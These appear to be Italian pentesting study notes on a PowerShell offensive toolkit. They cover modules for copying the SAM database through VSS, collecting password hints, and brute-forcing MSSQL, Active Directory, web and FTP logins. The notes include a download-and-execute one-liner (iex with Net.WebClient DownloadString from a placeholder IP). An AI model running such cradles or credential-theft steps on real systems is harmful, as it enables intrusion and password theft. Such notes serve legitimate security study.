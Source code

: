 ==Carica gli script usando metodi di upload in memoria come Net.WebClient o DownloadString==
```powershell
iex (New-Object Net.WebClient).DownloadString("HTTP://<IP>/<MODULO>"); <NOME MODULO>
```
### **GATHER**
<h3>Copy-VSS</h3>
Copia il database sam usand il servizio VSS
![[Pasted image 20230505115112.png]]
<h3>Get-Information</h3>
Molto utile, da tutta questa roba:
![[Pasted image 20230505114938.png]]
<h3>Get-PassHints</h3>
Ottieni tutti gli indizi per le passwords
![[Pasted image 20230505115134.png]]
### **BRUTEFORCE**
è un tool che permette di eseguire bruteforce di MSSQL, Active Directory, web e ftp finche si ha una lista di usernames e passwords.